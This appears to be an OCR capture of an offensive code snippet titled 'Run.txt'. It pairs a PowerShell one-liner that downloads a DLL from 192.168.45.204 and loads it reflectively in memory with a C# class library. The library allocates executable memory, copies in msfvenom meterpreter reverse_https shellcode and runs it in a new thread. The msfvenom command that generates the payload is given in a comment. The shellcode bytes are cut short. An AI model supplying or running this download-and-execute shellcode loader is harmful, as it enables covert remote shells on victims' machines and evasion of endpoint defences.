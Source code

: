 ## Run.txt

In-memory powershell

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.204/ClassLibrary1.dll')

# the Load method accepts a byte array in memory instead of a disk file
$assem = [System.Reflection.Assembly]::Load($data)

$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

ClassLibrary1.dll

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;

namespace ClassLibrary1
{
    public class Class1
    {
        [DllImport("kernel32")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32", CharSet = CharSet.Ansi)]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void runner()
        {
        // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f csharp
            byte[] buf = new byte[662] {0xfc,0xe8,0x8f...};

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

